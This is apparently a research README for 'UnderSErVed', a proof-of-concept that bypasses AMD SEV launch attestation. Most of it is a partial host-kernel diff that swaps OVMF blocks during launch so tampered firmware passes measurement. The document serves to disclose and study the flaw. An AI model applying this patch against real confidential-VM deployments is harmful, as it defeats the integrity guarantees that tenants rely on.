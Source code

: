 # UnderSErVed

This attack exploits a computational flaw in the Attestation process, allowing an attacker to arbitrarily modify the OVMF content in the kernel and thereby bypass the Attestation verification mechanism.

Our test procedure is as follows: First, we modify two locations in the OVMF image, making it completely unbootable. Then, within the kernel, we restore these locations back to their original values. If the attestation process is secure, the virtual machine should fail to boot. However, if a vulnerability exists, the VM will boot successfully, and the measured digest will still correspond to the tampered (unbootable) OVMF.

```
[Attacker prepares a corrupted OVMF]
        ↓
[Start VM and trigger Attestation]
        ↓
[Attestation measures the corrupted OVMF]
        ↓
[Kernel hot-patches OVMF back to normal]
        ↓
[Attestation completes, digest is for corrupted OVMF]
        ↓
[VM boots successfully, actually running the normal OVMF]
        ↓
[Attestation is bypassed]


## Required Kernel Patch

At minimum, the following kernel code must be included:
```
 static int sev_launch_update_data(struct kvm *kvm, struct kvm_sev_cmd *argp)
 {
-	unsigned long vaddr, vaddr_end, next_vaddr, npages, pages, size, i;
-	struct kvm_sev_info *sev = &to_kvm_svm(kvm)->sev_info;
+	unsigned long vaddr, vaddr_end, npages, size, i;
+	// struct kvm_sev_info *sev = &to_kvm_svm(kvm)->sev_info;
 	struct kvm_sev_launch_update_data params;
-	struct sev_data_launch_update_data data;
+	// struct sev_data_launch_update_data data;
 	struct page **inpages;
 	int ret;
+	uint64_t sizeIn16BChuncks;
+	uint64_t * ordered_16byte_chunks = NULL;
 
 	if (!sev_guest(kvm))
 		return -ENOTTY;
@@ -639,6 +719,71 @@ static int sev_launch_update_data(struct kvm *kvm, struct kvm_sev_cmd *argp)
 	size = params.len;
 	vaddr_end = vaddr + size;
 
+	printk("sev_launch_update_data: vaddr=%lx size=%lx vaddr_end=%lx\n",vaddr,size,vaddr_end);
+
+	if( size % 16 != 0) {
+		printk("sev_lauch_update_data called with size %lx which is not a multiple of 16, aborting",size);
+		ret = 1;
+		goto e_free;
+	}
+	if( (vaddr & (PAGE_SIZE -1)) != 0 ) {
+		printk("buffer is not page aligned");
+		ret = 1;
+		goto e_free;
+	}
+
+	printk("sev_launch_update_data: vaddr checks passed");
+	sizeIn16BChuncks = size/16;
+	ordered_16byte_chunks = vmalloc(sizeIn16BChuncks * sizeof(uint64_t)); 
+	if( ordered_16byte_chunks == NULL ) {
+		printk("sev_launch_update_data: failed to alloc ordered_16byte_chunks array\n");
+	}
+	for(i = 0; i < sizeIn16BChuncks; i++) {
+		ordered_16byte_chunks[i] = (i*16);
+	}
+	printk("sev_launch_update_data: ordered_16_byte_chunks array initialized\n");
+
+	//perform swapping and update array so that reading it from left to right still gives us the correct order
+	if( launch_attack_config.active) {
+		uint64_t target_offset = launch_attack_config.target_block;
+		uint64_t source_offset;
+		uint8_t buffer[16];
+		uint8_t buffer2[16];
+		int err_code;
+		for( i = 0; i < launch_attack_config.source_blocks_len; i++,target_offset+=16) {
+			source_offset = launch_attack_config.source_blocks[i];
+			printk("sev_launch_update_data: swapping target=%llx with source=%llx\n", vaddr+target_offset, vaddr+source_offset);
+			//copy target_offset to buffer
+			if( (err_code = copy_from_user(buffer,(void*)(vaddr+target_offset),16) )) {
+				printk("copy target to buffer failed with %d\n",err_code);
+				ret = 1;
+				goto e_free;
+			}
+			//copy source_offset to buffer2
+			if( (err_code = copy_from_user(buffer2,(void*)(vaddr+source_offset),16) ) ) {
+				printk("copy source to buffer2 failed with %d\n",err_code);
+				ret = 1;
+				goto e_free;
+			}
+			//copy buffer to buffer2 to source offset
+			if( (err_code = copy_to_user((void*)(vaddr+target_offset),buffer2,16))){
+				printk("copy buffer 2 to target failed with %d\n",err_code);
+				ret = 1;
+				goto e_free;
+			}
+			//copy buffer to source_offset
+			if( (err_code = copy_to_user((void*)(vaddr+source_offset),buffer,16))) {
+				printk("copy buffer to source failed with %d\n",err_code);
+				ret = 1;
+				goto e_free;
+			}
+			//adjust entries in ordered_16byte_chunks array
+			ordered_16byte_chunks[target_offset/16] = source_offset;
+			ordered_16byte_chunks[source_offset/16] = target_offset;
+		}
+	}
+	printk("sev_launch_update_data: swapped plaintext data");
+

```

